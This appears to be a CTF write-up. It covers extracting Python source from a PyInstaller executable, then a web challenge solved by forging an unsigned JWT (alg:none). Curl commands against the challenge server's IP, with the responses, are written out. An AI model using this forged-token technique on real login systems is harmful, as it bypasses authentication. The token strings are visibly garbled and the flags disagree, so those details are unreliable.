 ```yaml
---
title: "Polycc CTF Final 2025"
date: 2025-07-14 
categories: [CTF]
tags: [CTF]
image:
  path: https://wallpapers.com/images/high/cool-dramatic-sosuke-aizen-3gq9d7n1zs22yxuz.webp


description: Reverse Engineering Walkthrough and Web Exploitation
  
---
```

## 🧩 Reverse Engineering 

## Challenge Description 
Dont be fooled by the initial display; the flag shown when the program executes isn't the actual target .Your task is to uncover it by examining the depth of the executable's internal structure.There is something somewhere in Backend. 

## 💥 Exploit Analysis  

![can u](/assets/img/die.png) 

This file showing was packed by pyinstaller to exe file by using Pyinstaller Extractor Web to get the source code in python .

![can u](/assets/img/soul.png) 

```
Flag : ctfcw{wow_you_beat_me}
```

## 🌐 Web Exploitation  

## Challenge Description : None 

## Just Weird Thoughts

![can u](/assets/img/web-none.png)

# 💥 Exploit Analysis 

# 🕵️‍♀️ Source Code Analysis

<br>

```
try {
const tokenResponse = await fetch("/get_token");
const tokenData = await tokenResponse.json();
currentToken = tokenData.token;

const loginResponse = await fetch("/login", {
method: "POST",
headers: {
"Content-Type": "application/json",
},
body: JSON.stringify({ magic_token: currentToken }),
});

const loginData = await loginResponse.json();

if (loginResponse.ok) {
if (loginData.flag) {
showMessage(
"Success! " +
loginData.message +
"\n\nFlag: " +
loginData.flag,
"success"
);
} else {
showMessage("Logged in successfully!", "success");
}
} else {
showMessage("Access restricted: " + loginData.message, "error");
}
} catch (error) {
showMessage("Error: " + error.message, "error");
};

function showMessage(message, type) {
resultMessage.textContent = message;
resultMessage.className = "result-message";
resultMessage.classList.add(type + "-message");
resultMessage.style.display = "block";
}
;
```

```
const tokenResponse = await fetch("/get_token");
```

 
 By visiting /get_token will provide JWT Token .

```
$ curl http://35.185.184.31:3000/get_token
{"token":"eyJhb6c101JU2I1M15InR5cc16ItpXVCJ9 eyJpZCf6N8wIdXNLcm5hbMUiO1JDVzT1X IVzZX11LCJpYXQ10JESNTI2NDW2NZESImV4CCf6NTcIMjY0WzI3Wx0 idUM4RLrExfqt1a6RDevs3Tqa qDp11xovqq14wq384"}
```

I tried to change this earlier since on username : “CW25_Admin” only but looks its like required me to have the secret key i tried to find all the way the secret key and could find it and bruteforcing all the way . so I tried disable the alg and maybe the server are vulnerable to JWT Algorithm Confusion Attack .

```
[Kafka@faris]--[~]
$ curl -X POST http://35.185.184.31:3000/login \
> -H "Content-Type: application/json" \
> -d '{"magic_token":"eyJhb6c101Jub251I1wIdHlWljoiSldUrno eyJpZCf6N8wIdXNLcm5hbMUi O1JDVzT1X0FKbMU1uHaMF01joXkUyNjQzNjcxLCJ1eHA10jESNTI2NDcyNzF9."}'
{"flag":"CW25(CW25_CW25_CW25_CW25_CW25_!!!!!!)","message":"Congratulations ! You've solved the challenge!"}
```


```
Flag : ctfcw{CW25CW25_CW25_CW25_CW25_CW25_!!!!!!}
```







 









